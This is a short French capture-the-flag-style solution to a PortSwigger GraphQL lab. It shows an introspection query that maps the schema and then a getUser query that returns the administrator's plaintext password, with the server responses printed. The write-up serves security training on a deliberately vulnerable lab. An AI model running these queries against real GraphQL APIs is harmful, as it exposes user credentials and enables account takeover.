# Lab

https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure

## Solution

Avec de l'introspection on peut voir qu'il y a une query `getUser` qui prend un argument `id` de type `Int` et qui retourne un objet `User` qui a deux champs `username` et `password` qui sont de type `String`.

```graphql
{
    "query":"query {__schema{queryType{name, fields{name, args{name, type{name}}}}}}"
}
```

```json
{
  "data": {
    "__schema": {
      "queryType": {
        "name": "query",
        "fields": [
          {
            "name": "getBlogPost",
            "args": [
              {
                "name": "id",
                "type": {
                  "name": null
                }
              }
            ]
          },
          {
            "name": "getAllBlogPosts",
            "args": []
          },
          {
            "name": "getUser",
            "args": [
              {
                "name": "id",
                "type": {
                  "name": null
                }
              }
            ]
          }
        ]
      }
    }
  }
}
```

```graphql
{"query":"query {getUser(id:1){username,password}}"}
```

```json
{
  "data": {
    "getUser": {
      "username": "administrator",
      "password": "majwpsqyxu96x5m9jzpf"
    }
  }
}
```